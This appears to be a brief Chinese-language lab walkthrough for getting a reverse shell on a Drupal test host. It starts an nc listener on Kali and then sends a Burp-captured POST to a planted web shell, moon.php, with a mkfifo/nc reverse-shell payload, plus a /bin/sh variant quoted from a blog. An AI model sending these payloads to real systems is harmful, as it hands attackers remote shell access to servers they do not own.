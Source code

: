 



首先在kali中使用nc进行监听

nc -lvnp 9000

在浏览器中访问http://192.168.5.132/drupal/moon.php



使用burp进行抓包准备反弹shell

```
POST /drupal/moon.php HTTP/1.1

Host: 192.168.5.132

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4482.0 Safari/537.36 Edg/92.0.874.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Cookie: has_js=1

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 91



moon=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash++2>%261|nc+192.168.5.129+9000+>/tmp/f
```



注意这里的 192.168.5.129为kali的ip地址

moon博客里写的是/bin/sh -i 但是我在测试时报错了

rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+‐i+2>%261|nc+192.168.0.136+9001+>/tmp/f



我这里改为 /bin/bash

moon=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash++2>%261|nc+192.168.5.129+9000+>/tmp/f





提交之后可以反弹一个shell
